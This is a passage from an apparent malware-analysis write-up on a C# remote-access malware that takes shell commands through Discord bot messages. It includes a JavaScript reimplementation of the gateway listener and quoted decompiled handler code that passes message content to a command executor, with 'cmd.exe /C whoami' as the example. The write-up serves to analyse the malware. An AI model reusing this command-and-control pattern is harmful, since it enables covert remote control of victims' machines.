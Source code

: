 ```jsx
    },
  },
};

ws.addEventListener("open", function open(x) {
  ws.send(JSON.stringify(payload));
});

ws.addEventListener("message", function incoming(data) {
  var x = data.data;
  var payload = JSON.parse(x);

  const { t, event, op, d } = payload;

  switch (op) {
    // OPCODE 10 GIVES the HEARTBEAT INTERVAL, SO YOU CAN KEEP THE CONNECTION ALIVE
    case 10:
      const { heartbeat_interval } = d;
      setInterval(() => {
        ws.send(JSON.stringify({ op: 2, d: null }));
      }, heartbeat_interval);

      break;
  }

  console.log("Type: ", t);

  switch (t) {
    case "MESSAGE_CREATE":
      console.log(d.author.username + ": " + d.content);
    // could execute d.content on the machine now
  }
});
```

{: file="receive_commands_from_discord_bot.js "}

![Script Output](/assets/img/receive-commands-from-dc-bot.png){: .shadow }

The switch case statement in my code snippet can also be found inside
the original malware. My guess that the received messages are executed as shell
commands has been confirmed with the CommandHandler call, which executes the
command. Like in our example, this would look like: `cmd.exe /C whoami`.

```csharp
public static async Task handler(Dictionary<object, object> data)
{
  ...
      switch (str)
      {
        case "READY":
          ...
        case "GUILD_CREATE":
          ...
        case "MESSAGE_CREATE":
          await Program.CommandHandler((string) message_content, array);
          ...
        case "CHANNEL_CREATE":
          ...
```